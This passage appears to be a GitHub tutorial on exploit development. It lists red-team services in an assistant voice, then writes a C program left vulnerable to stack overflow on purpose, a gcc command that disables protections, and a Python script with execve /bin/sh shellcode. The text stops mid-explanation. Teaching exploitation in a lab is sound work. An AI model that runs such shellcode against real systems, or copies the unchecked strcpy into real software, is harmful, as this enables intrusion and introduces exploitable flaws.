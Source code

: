 # Exploit Development - C Red Teamer

Red Team Projects
1. **Penetration Testing**: I can help create scenarios for testing the resilience of your systems against attacks.

2. **Exploit Development**: If you need to understand the technical specifics of how vulnerabilities are exploited, I can provide detailed explanations. This includes writing exploit code in C and other languages.

3. **Secure Coding Practices**: I can guide you on writing secure C code, avoiding common security pitfalls, and minimizing the attack surface of your code.

4. **Reverse Engineering and Malware Analysis**: If you have a piece of malware or a suspicious file, I can help you understand what it does and how it works. This usually involves disassembling or decompiling the code and analyzing it.

5. **Intrusion Detection and Prevention**: I can help you understand how to detect and respond to security incidents, including the use of IDS/IPS systems, SIEM solutions, and other security tools.

6. **Vulnerability Assessment**: Identifying vulnerabilities in your system or application is critical. I can advise on how to find these vulnerabilities, how they can be exploited, and how to fix them.

Remember, Red Team exercises are about more than just breaking into systems. They're about understanding how those systems can be broken into, and providing advice on how to prevent such intrusions in the future. Red Teaming is a proactive approach to cyber security. It's about identifying and fixing vulnerabilities before they can be exploited.


## Exploit Development 

Developing your skills as an exploit developer can be greatly aided by working on practical projects. Here are a few ideas for projects you can consider:

1. **Buffer Overflow Vulnerabilities**: Develop a simple program in C that is intentionally vulnerable to buffer overflow attacks. Then, write an exploit for this vulnerability. This will help you understand how buffer overflows work, how they can be exploited, and how to prevent them. You can start with simple stack-based buffer overflows and gradually progress towards more complex exploits such as heap overflows or format string vulnerabilities.

2. **Shellcode Development**: Shellcode is a key part of many exploits. Write your own shellcode in assembly language and use it in an exploit. You could start with a simple shellcode that opens a shell and then move on to more complex tasks like executing a particular command, bypassing security mechanisms, or maintaining persistence.

3. **Exploit Mitigation Bypass**: Modern systems have various exploit mitigation techniques in place, such as Address Space Layout Randomization (ASLR), Data Execution Prevention (DEP), and stack canaries. Develop exploits that can bypass these protections. This is a challenging task that will deepen your understanding of both exploitation and defensive techniques.

4. **Reverse Engineering**: Choose an open-source software, find a vulnerability and write an exploit for it. This process will involve reverse engineering, vulnerability identification, and finally, exploit writing. Tools such as Ghidra, Radare2, or Binary Ninja can be used for reverse engineering.

5. **ROP Chain Creation**: Return Oriented Programming (ROP) is a powerful technique used to bypass DEP. Create a ROP chain to execute your payload in a controlled environment.

6. **Fuzzing**: Write a fuzzer to discover vulnerabilities in software applications. This could be a simple "dumb" fuzzer that provides random inputs, or a more sophisticated "smart" fuzzer that understands the structure of the input data.

7. **Capture The Flag (CTF) Challenges**: Participate in CTF challenges which often contain binary exploitation tasks. Sites like pwnable.kr, OverTheWire, or Hack The Box provide challenges of varying difficulty. The learning curve is steep but rewarding.

Remember that exploit development is a highly complex area of cybersecurity and requires deep understanding of systems. Always make sure to perform these activities in a controlled and legal environment, such as your own home lab or designated platforms for learning cybersecurity.

### Project 1: Simple C with Buffer Overflow Vulnerabilities

Let's start by creating a simple C program that is intentionally vulnerable to a stack-based buffer overflow attack. Here's a basic example:
Target in mind is Ubuntu:20.04 

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function(char* str) {
    char buffer[128];
    strcpy(buffer, str);
}

int main(int argc, char** argv) {
    vulnerable_function(argv[1]);
    return 0;
}
```

In this program, `vulnerable_function` copies the string passed as a command-line argument into a fixed-size buffer using `strcpy()`. `strcpy()` doesn't check whether the source string will fit into the destination buffer, so if the input string is longer than the buffer, it will overflow.

You can compile this code with gcc using the following command. We're disabling stack protection and using the executable stack for simplicity, although these would not be typical settings for real-world programs:

```bash
gcc -fno-stack-protector -z execstack -o vuln_program vuln_program.c
```

Now let's create an exploit for this vulnerability. We'll write a Python script that constructs an input string to take control of the program's execution.

First, we need to understand the layout of the stack. When `vulnerable_function` is called, a stack frame is created with space for the buffer and the saved return address. The return address is what the CPU jumps to when the function finishes. By overwriting this return address, we can make the program jump to any part of the memory.

In our case, we'll overwrite the return address with the address of our shellcode, which will be located inside the buffer. This shellcode will start a shell when executed.

Here is an example Python script that creates such an input:

```python
#!/usr/bin/env python3

buffer_size = 128
# Assuming return address is 8 bytes on a 64-bit architecture
ret_address_offset = buffer_size + 8

# nop sled (no operation)
nop_sled = b'\x90' * 64

# Example shellcode that starts a /bin/sh shell.
# This might need to be adjusted depending on the system.
shellcode = (
    b'\x48\x31\xd2'                                  # xor    %rdx, %rdx
    b'\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68'      # mov    $0x68732f6e69622f2f, %rbx
    b'\x48\xc1\xeb\x08'                              # shr    $0x8, %rbx
    b'\x53'                                          # push   %rbx
    b'\x48\x89\xe7'                                  # mov    %rsp, %rdi
    b'\x50'                                          # push   %rax
    b'\x57'                                          # push   %rdi
    b'\x48\x89\xe6'                                  # mov    %rsp, %rsi
    b'\xb0\x3b'                                      # mov    $0x3b, %al
    b'\x0f\x05'                                      # syscall
)

# We'll need to find the correct address for this
return_address = (b'\xef\xbe\xad\xde\xef\xbe\xad\xde')[::-1]

payload = nop_sled + shellcode
payload += b'A' * (ret_address_offset - len(payload))
payload += return_address

print(payload)
```

In the above exploit code, we start with a NOP sled. A NOP (No Operation) sled is a sequence of NOP instructions that do nothing. It
